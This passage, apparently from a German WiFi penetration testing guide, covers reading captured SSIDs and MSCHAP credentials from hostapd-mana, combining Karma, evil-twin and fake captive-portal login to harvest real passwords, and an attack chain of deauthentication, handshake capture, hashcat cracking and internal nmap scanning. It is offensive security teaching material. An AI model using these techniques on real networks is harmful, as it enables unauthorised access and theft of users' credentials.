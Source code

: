 **Captured SSIDs:**
```bash
cat /tmp/mana_wpa.txt

# Zeigt alle SSIDs die Clients gesucht haben:
# HomeWiFi
# Office-WLAN
# Starbucks
# Hotel-Guest
```

**Credentials (falls Client versucht zu authentifizieren):**
```bash
cat /tmp/mana_credentials.txt

# Kann MSCHAP Handshakes enthalten
# Crackbar mit hashcat
```

### Kombination: Karma + Evil Twin + Captive Portal

```bash
# Setup:
# 1. hostapd-mana für Karma
# 2. dnsmasq für DHCP
# 3. Apache für Fake Login

# Wenn Client verbindet:
# → Bekommt IP
# → Wird zu login.html redirected
# → Gibt Credentials ein
# → Du hast echtes Passwort

# Perfekte Kombination!
```

---

## 8. Advanced Attack Chains

### Attack Chain 1: Full Compromise

**Ziel:** Von außen zu vollem Netzwerk-Zugriff

```
1. RECONNAISSANCE
   → airodump-ng scan
   → Finde Target: SSID "CompanyWiFi"
   → BSSID: AA:BB:CC:DD:EE:FF, WPA2-PSK

2. HANDSHAKE CAPTURE
   → airodump-ng capture
   → aireplay-ng deauth
   → Handshake captured

3. CRACKING
   → Kopiere zu PC
   → hashcat mit großer Wordlist
   → Password gefunden: "Company2023!"

4. ACCESS
   → Verbinde mit echtem Passwort
   → Bin jetzt im Netzwerk

5. INTERNAL RECON
   → nmap -sn 192.168.1.0/24
```